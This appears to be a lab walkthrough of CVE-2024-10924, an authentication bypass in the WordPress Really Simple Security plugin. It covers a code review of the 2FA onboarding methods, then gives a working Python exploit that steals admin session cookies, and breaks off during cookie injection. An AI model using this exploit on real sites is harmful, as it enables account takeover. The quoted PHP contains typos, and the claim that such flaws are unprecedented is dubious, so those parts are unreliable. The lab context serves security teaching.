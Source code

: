 # Bypassing really simple security plugin

Wordpress is one of the most popular open-source Content Mangement Systems(CMS) and it is widely used to build websites ranging from blogs to e-commerce platforms. In November 2024, a critical vulnerability was discovered in the [Really Simple Security Plugin](https://really-simple-ssl.com), a widely adopted security plugin used by millions of websites. The vulnerability allowed attackers to bypass authentication and gain unauthorised access to user accounts, including those with administrative privileges. Since WordPress is a CMS, gaining administrtative access sometimes allows you even to perform privilege escalation and get complete control of the server/network.

## How it works

The vulnerability in CVE-2024-10924 arises due to non-adherence to secure coding practices while handling REST API endpoints in the WordPress Really Simple Security plugin. This plugin is widely used to add additional security measures, including Two-Factor Authentication (2FA). Unfortunately, improper validation during the authentication process allows attackers to exploit API endpoints and bypass critical checks.

WordPress offers various entry points for interaction:

- Admin Dashboard: Used for administrative management via the **/wp-adim** endpoint. Only authenticated users with valid credentials can access this interface.
- Public Interface: Manged by the index.php file in the root directory, it serves content to visitors.
- REST API: The API provides a flexible entry point for developers to manage site data programmatically. It requires proper authentication to access sensitive resources.

The vulnerability targets REST API endpoints configured for the plugin's Two-Factor Authentication (2FA) mechanism. It enables attackers to bypass authentication by manipulating parameters used during API interactions. The vulnerability occurered due to insufficient validation of user-supplied values, specifically in the skip_onboarding feature.

### How the Vulnerability Works

To understand how the vulnerability works, let's have a source code review to understand the control flow through the different pages. You can review the source code in the **/var/www/html/wp-content/plugins/really-simple-ssl/security/wordpress/two-fa** folder in the attached VM. The plugin contains a PHP class called Rssl_Two_Factor_On_Board_Api, which includes the following essential methods that lead to a bypassing authentication vulnerability:

```bash
                                                     ----> user_id     ---
Skip_onboarding()----> check_login_and_get_user()   |                     |--> authenticate_and_redirect()
                                                     ----> login_nonce ---
```

- skip_onboarding: Skips or manages the 2FA onboarding process for a user by validating their credentials and redirecting them after authentication. It begins by extracting parameters from teh request, including user_id, login_nonce, and redirect_to. These parameters are then passed to the check_login_and_get_user function for validation. If a valid user object is returned, the method calls authenticate_and_redirect, redirecting the user to the redirect_to URL.

```php
public funciont skip_onboarding(WP_REST_Request $request): WP_REST_Response {
    $parameters = new Rssl_Request_Parameters($request);
    //As a double we check the user_id with the login nonce.
    $user = $this->check_login_and_get_user((int)$parameters->user_id, $parameters->login_nonce);
    return $this->authenticate_and_redirect($parameters->user_id, $parameters->redirect_to);
}
```

The vulnerability lies in the skip_onboarding method not validating the return value of check_login_and_get_user. Even if the function returns null, indicating invalid credentials, the process redirects the user, granting unauthorised access. The call to skip_onboarding is carried out through REST API endpoint **/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding** with POST parameters user_id, login_nonce and redirect_to URL.

- check_login_and_get_user: the check_login_and_get_user function is responsible for validating the user_id and login_nonce. It first checks the validity of the login_nonce using the verify_login_nonce function. If the nonce is invalid, it returns null, ensuring an authentication failure. If the nonce is valid, it retrieves the user object associated with the provided user_id and returns it.

```php
private function check_login_and_get_user(int $user_id, string $login_nonce) {
    if (!Rsssl_Two_Fa_Authentication::verify_login_nonce($user_id, $login_nonce)) {
        return new WP_REST_Response(array('error'=>"Invalid login nonce'), 403);
    }
}
```

The problem arises because skip_onboarding does not properly handle the null response from this function. While the function does its job of identifying invalid credentials, the calling method ignores its return value, allowing the process to continue as if the authenticaiton was successful.

- authenticate_and_redirect: This function redirects the user after successful authenticaion. It assumes that the earlier methods have already authenticated the user. It uses the user_id and redirect_to parameters to redirect the user to the desired URL.

```php
private function authenticate_and_redirect(int $use_id, string $redirect_to = ''): WP_REST_Response {
    //Okay checked the provider now authenticate the user.
    wp_set_auth_cookie($user_id, true);
    //Finally redirect the user to the redirect_to or to the home page if teh redirect_to is not set.
    $redirect_to=$redirect_to ?: home_url();
    return new WP_REST_Response(array('redirect_to' => $redirect_to), 200);
}
```

However, this function is called even if authentication fails. Therefore, the attacker is seamlessly redirected to the desired page, bypassing the authentication mechanism. Such instances are the first of their kind, and normally, such security flaws have never been seen in a renowned plugin.

It is important to note that the vulnerability only works for the accounts agains whom 2FA is enabled. The chain of methods reveals how improper validation leads to a critical security flaw:

- In skip_onboarding: The reutrn value from **check_login_and_get_user** is not validated, allowing a null response to be treated as valid user.
- In check_login_and_get_user While it correctly identifies invalid credentials, it relies on the caller to handle its return value, which does not happen.
- In authenticate_and_redirect: it blindly redirects users based on the parameters passed to it, assuming they have been properly authenticated.
- In authenticate_and_redirect: it blindly redirects users based on the parameters passed to it, assuming they have been properly authenticated.

## Exploitation

We will see that the website is protected through a login panel. Our goal is to retrieve credentials against a WordPress user admin with user_id 1.

Below is a simple python script that sends a POST request to the vulnerable endpoint. This script extracts and displays the cookies in response to authenticate the user.

```python
import requests
import urllib.parse
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <user_id>")
    sys.exit(1)

user_id = sys.argv[1]

url = "http://vulwp.thm:8080/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
data = {
    "user_id": int(user_id),
    "login_nonce": "invalid_nonce",
    "redirect_to": "/wp-admin/"
}

response = requests.post(url, json=data)

if response.status_code == 200:
    print ("Request successful!\n")

    cookies = response.cookies.get_dict()
    count = 1

    for name, value in cookies.items():
        decoded_value = urllib.parse.unquote(value)
        print (f"Cookie {count}:")
        print (f"Cookie Name: {name}")
        print (f"Cookie Value: {decoded_value}\n")
        count += 1
else:
    print ("Request failed!")
    print (f"Status Code: {response.status_code}")
    print (f"Response Text: {response.text}")
```

The above script sends a POST request to the WordPress endpoint and retrieves the authenticated cookie values for the specified **user_id**, with 1 typically being assigned to the first user on the website.

### From Cookies to Admin Login

Now, we will use the cookies retrieved earlier to log in as admin on the WordPress site. While on the **vulnwp.thm:8080** page, you can manually inject the cookies into Firefox. To do this, right-click on the page and select Inspect, then open the browser's developer tools.

Edit the Cookies value 
